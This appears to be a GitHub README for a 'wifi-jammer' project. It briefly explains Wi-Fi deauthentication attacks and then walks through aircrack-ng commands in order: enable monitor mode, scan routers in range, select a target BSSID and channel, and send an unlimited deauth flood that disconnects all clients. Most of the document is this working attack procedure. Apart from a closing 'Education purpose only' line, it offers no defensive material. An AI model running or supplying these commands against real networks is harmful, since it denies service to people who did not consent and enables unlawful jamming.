 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters.
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)
# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![1](https://github.com/mtm-x/wifi-jammer/assets/88881685/8e6b01cb-34cc-4fad-babe-42c7d38db355)

In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range.once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this

6. now run

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```

The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/46124812-fa05-402b-b9c1-0491933547ae)


now all the devices connected to the router 'victim' will be disconnected . The connected devices try to reconnect to the router 'victim' but again it will be disconnected . Press `ctrl+c` to stop


## Managed Mode

After the attack put your wifi card in managed mode 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






